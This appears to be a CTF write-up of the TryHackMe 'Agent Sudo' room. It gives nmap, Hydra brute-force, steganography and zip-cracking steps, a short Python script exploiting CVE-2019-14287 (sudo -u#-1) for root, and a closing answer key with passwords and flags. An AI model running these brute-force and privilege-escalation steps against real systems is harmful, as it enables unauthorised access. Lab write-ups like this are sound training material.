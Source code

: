 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/AgentSudo/logo.png
date: 2022-09-10 09:45:47+07:00
modified: 2022-09-10 09:45:47+07:00
categories: TryHackMe
machine_author:
  link: https://tryhackme.com/p/DesKel
  name: DesKel
tags: [CVE, Agent Sudo, TryHackMe, Writeup, CTF]
title: Agent Sudo
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/thmbanner.png)

 
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Recon


I start port scanning with [Nmap]() to find existing ports and services.

`sudo nmap -sC -sV -oA nmap/agentsudo 10.10.133.149`


|Ports|Service
|21|FTP (vsftpd 3.0.3)
|22|SSH (OpenSSH 7.6p1
|80|HTTP (Apache httpd 2.4.29

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/1.png)

I checked website and wants me to change my user-agent

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/02.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2.png)

## Brute-Force

“25 employees” suggesting letters in the alphabet. So I have decided to brute force using all the letters.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_1.png)
![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_2.png)

After changing my user name to “C” I got the following message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_3.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/3.png)

Next, I decided to check out the FTP server. As I don’t have a password, I tried to brute-force using [Hydra]() and with [rockyou.txt]()

`hydra -t 3 -l chris -P /home/sz/Documents/rockyou.txt 10.10.133.149 ftp`

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/4.png)

I got the password to log in FTP.

After logging in I found two .png and one .txt file. After downloading them I checked out the message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5_1.png)

“stored in the fake picture” suggesting pictures are [Steganography]().

I brute-forced with [Stegcracker]() and found the following text

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/6.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/7.png)

Not very useful. For the other picture, I used [binwalk]() to extract the files inside one of the images.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/8.png)

I found a zip file and brute-force that with [John]()

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/9.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/10.png)

Now I have the user and password to ssh.

After logging in ssh I found the user flag

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/11.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/12.png)

## OSINT

Inside I found an image 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13_1.png)

After a simple google reverse image search, I found this article.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13.png)

## Privilege Escalation

After doing some basic enumeration I found a possible shell escaping way. 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/14.png)

After doing some research I have found the following CVE.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/15.png)

I made a python file with the following code. 

```python
#!/usr/bin/python3
import os
#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)
```

After executing the file I got root!

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/16.png)


 <a href='https://ko-fi.com/N4N64TH56' target='_blank'><img height='36' style='border:0px;height:36px;' src='https://cdn.ko-fi.com/cdn/kofi3.png?v=3' border='0' alt='Buy Me a Coffee at ko-fi.com' /></a>

***Q1. How many open ports?***

***A. 3***

***Q2. How you redirect yourself to a secret page?***

***A. user-agent***

***Q3. What is the agent name?***

***A. chris***

***Q4. FTP password***

***A. crystal***

***Q5. Zip file password***

***A. alien***

***Q6. steg password***

***A. Area51***

***Q7. Who is the other agent (in full name)?***

***A. james***

***Q8. SSH password***

***A. hackerrules!***

***Q9. What is the user flag?***

***A. b03d975e8c92a7c04146cfa7a5a313c7***

***Q10. What is the incident of the photo called?***

***A. Roswell alien autopsy***

***Q11. CVE number for the escalation***

***A. CVE-2019-14287***

***Q12. What is the root flag?***

***A. b53a02f55b57d4439e3341834d70c062***

***Q13. (Bonus) Who is Agent R?***

***A. DesKel***